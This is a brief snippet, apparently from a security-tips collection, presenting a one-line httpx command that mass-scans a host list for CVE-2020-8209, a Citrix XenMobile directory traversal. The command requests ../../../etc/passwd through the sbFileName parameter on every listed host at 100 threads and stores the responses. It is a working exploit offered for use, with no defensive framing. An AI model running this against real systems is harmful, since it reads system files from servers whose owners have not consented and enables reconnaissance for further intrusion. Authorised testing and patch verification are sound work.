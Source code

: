 Mass check for CVE-2020-8209 ( Citrix XenMobile directory traversal)

```
httpx -l hosts.txt  -path "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd" -sr -response-in-json  -srd httpx-output -threads 100 -status-code
```
